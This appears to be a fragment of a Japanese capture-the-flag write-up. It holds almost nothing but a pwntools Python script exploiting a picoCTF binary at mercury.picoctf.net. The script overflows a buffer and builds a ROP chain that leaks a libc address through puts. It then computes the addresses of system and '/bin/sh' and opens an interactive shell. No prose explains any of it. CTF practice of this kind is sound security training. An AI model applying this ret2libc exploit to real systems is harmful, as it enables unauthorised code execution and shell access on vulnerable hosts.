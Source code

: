 ### プロセスにバイトコードを送り込む

- スクリプト(Pwntool)

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

puts_plt = 0x400540
got_plt_scanf = 0x601038
rop_rdi_ret = 0x400913
ret = 0x40052e
main = 0x400771

# Local
p = process("./vuln")

# Remote
p = remote("mercury.picoctf.net", 42072)

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(rop_rdi_ret)
payload += p64(got_plt_scanf)
payload += p64(puts_plt)
payload += p64(main)

r = p.recvline()
p.sendline(payload)
r = p.recvline()

leakaddr = u64(p.recvline().rstrip().ljust(8, b"\x00"))
# print(hex(leakaddr))

base_addr = leakaddr - 0x07bf30
system_addr = base_addr + 0x04f4e0
str_bin_sh = base_addr +  0x1b40fa

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(ret)
payload += p64(rop_rdi_ret)
payload += p64(str_bin_sh)
payload += p64(system_addr)

r = p.recvline()
p.sendline(payload)
p.interactive()
```
